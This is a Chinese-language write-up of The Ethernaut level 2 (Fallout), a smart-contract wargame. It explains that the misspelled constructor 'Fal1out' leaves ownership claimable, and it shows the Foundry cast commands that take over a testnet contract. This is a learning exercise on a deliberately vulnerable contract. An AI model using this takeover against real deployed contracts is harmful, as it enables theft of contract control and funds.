 # Level 2

[The Ethernaut level 2](https://ethernaut.openzeppelin.com/level/2)

这道题的构造函数是 `Fal1out`，合约名叫 `Fallout`。不仔细检查，完全看不出来区别。

本题想考的知识点应该是：在 Solidity 0.4.22 之前，可以使用与合约同名的函数作为构造函数。从 Solidity 0.4.22 开始，应使用 `constructor` 关键字。

因此，破解这题没什么难度。“构造”函数并没有被执行，合约部署后 `owner` 没有被赋值，为默认值 `0x`。只要调用 `Fal1out` 函数即可获得 `owner` 权限。

下面是使用 Foundry 的 cast 命令去调用智能合约：

（新部署的 `Fallout` 合约，[地址](https://sepolia.etherscan.io/address/0x6c178efb9F79C13f88618F82Dee359025F3C8F71)）

合约部署后调用合约的 `owner` 方法，返回 `0x0000000000000000000000000000000000000000`。
```
cast call \
0x6c178efb9F79C13f88618F82Dee359025F3C8F71  "owner()(address)"  \
--rpc-url sepolia
```

调用 `Fal1out` 函数，获取 `owner` 权限。[交易哈希](https://sepolia.etherscan.io/tx/0xa5733b6b05d9bf1d444e55abda842a3e862df4d4a24c4475a97379d5463157fa)
```
cast send \
0x6c178efb9F79C13f88618F82Dee359025F3C8F71  "Fal1out()()"  \
--value 10000000000 \
--rpc-url sepolia \
--private-key <private key>
```

再次调用上面的 `owner` 方法，返回发送者地址 `0x3EBA4347974cF00b7ba130797e5DbfAB33D8Ef4b`。